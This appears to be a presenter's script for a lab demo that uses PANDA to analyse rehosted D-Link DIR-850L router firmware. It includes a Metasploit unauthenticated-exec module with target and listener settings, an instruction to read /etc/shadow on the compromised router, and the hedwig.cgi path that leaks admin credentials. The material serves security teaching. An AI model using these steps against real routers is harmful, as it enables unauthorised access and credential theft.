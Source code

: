 > Let's watch the processes start up for the entire system. 
Run it for a little bit and close, it's kinda noisy.

> What if we just want to know when a specific program is started? For example, the webserver?
Edit the callback to now include the if statement about "httpd"
```python
@panda.ppp("syscalls2", "on_sys_execve_enter")
def on_sys_execve_enter(cpu, pc, filename_ptr, argv, envp):
    try:
        fname = panda.read_str(cpu, filename_ptr)
    except:
        fname = "(error)"
    if "httpd" in fname:
        print("httpd started: execve(%s,...)" % fname)
```
There are much much better ways to do detect this process starting, but this is intuitive for a broad audience and "just uses python."

Run `./socat.sh` in another terminal and then show the webserver connecting to http://localhost:8000 after the server starts up.
> In our rehosted system, we have configured some networking so it can talk with the host
Feel free to play around with the web interface, it's quite stable. Talk about
how even though we had all of those boot errors at least this seems to work out
okay.

## Running the DIR-850L and metasploit:

Go back to the slides and move to the next slide about metasploit

> Now let's do something a little more interesting

In a separate window Start metasploit: `msfconsole`

The following commands are run in metasploit:
```
use exploit/linux/http/dlink_dir850l_unauth_exec
set rhost 192.168.0.1
set lhost 192.168.0.2
exploit
```

Type in the window, show that you are running commands on the router such as `hostname` and `cat /etc/shadow`

>Okay, that's great. Let's see if we can use dynamic analysis to understand how this exploit works a bit more by figuring out which programs have the bugs

### Digging into the vulnerabilities

#### Credential looting

There are two vulnerabilities used in this metasploit module.  The first is to steal credentials using hedwig.cgi/fatlady.php, which are used to update the configuration settings.  hedwig.cgi is available pre-auth, and will validate any service name you request by loading that php file.  Essentially, we tell it to load `/htdocs/webinc/getcfg/DEVICE.ACCOUNT.xml.php` and that will output admin accounts.
